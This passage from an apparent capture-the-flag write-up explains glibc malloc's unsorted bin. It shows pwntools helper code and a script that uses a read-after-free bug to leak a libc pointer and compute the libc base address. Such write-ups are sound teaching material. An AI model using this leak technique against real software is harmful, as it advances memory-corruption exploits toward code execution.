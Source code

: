 Ok, enough enumerating, we need to start by getting some leaks. We have no limitations to what size letter we can make (other than one larger 65536, due to `M_MMAP_MAX`), so we can easily leak an address to libc.

One of the main structures about how `malloc` manages its free lists, is that large chunks, when freed, go to a list called the `unsorted_bin`. While they are in these bins, they store pointers to the previous and next blocks of _free_ memory. However, when there is only one block, these pointers point to the `main_arena`, or the structure that manages all the bins for `malloc`. `main_arena` is located in libc, and not the heap. These pointers are placed at the start of the data segment of the chunk, meaning that read after free bug that we have can leak out the libc pointer! If the reason for why a chunk has libc pointers, I’d highly look at the official post about malloc internals on the [sourceware page](https://sourceware.org/glibc/wiki/MallocInternals).

So, to leak libc we need to alloc 2 large chunks, free the first one, then read from that freed chunk. The reason we need to alloc the 2nd chunk is because malloc will try to combine adjacent blocks of free memory to be efficient, and if we leave a free block next to the top chunk (the remaining space of the heap), malloc will just coalesce it on `free()`.

Because interacting with the menu can be verbose in exploit development, I also wrote some functions in pwntools to abstract away making, reading, and freeing chunks:

```py
r = conn() # either remote or process

def alloc(idx, size, data):
    print("ALLOCATING: ", idx)
    r.sendlineafter("> ", "1")
    r.sendlineafter("idx: ", str(idx))
    r.sendlineafter("size: ", str(size))
    r.sendlineafter("content: ", data)

def free(idx):
    print("FREEING: ", idx)
    r.sendlineafter("> ", "2")
    r.sendlineafter("idx: ", str(idx))

def show(idx):
    print("SHOWING: ", idx)
    r.sendlineafter("> ", "3")
    r.sendlineafter("idx: ", str(idx))
    return r.recvline()
```

Now, leaking libc, we just follow the steps above. To make sure these chunks don’t end up in smaller bins, we have to make them large, so 1350 bytes was chosen arbitrarily. We’ll have to interact with the smaller bins soon, but just for now, for this leak to work in this way, large-ish chunks are sufficient:

```py
# Make two large chunks
alloc(0, 1350, 'A')
alloc(1, 1350, 'A')
# Free the first one so bk = main_arena in libc
free(0)
resp = show(0)
# parse the libc address in little-endian
libcaddr = int(resp[5::-1].hex(),16)
# Use offsets found in gdb to compute libc base
libc.address = libcaddr - (0x7f7c10419ce0 - 0x7f7c10200000)
free(1)
```
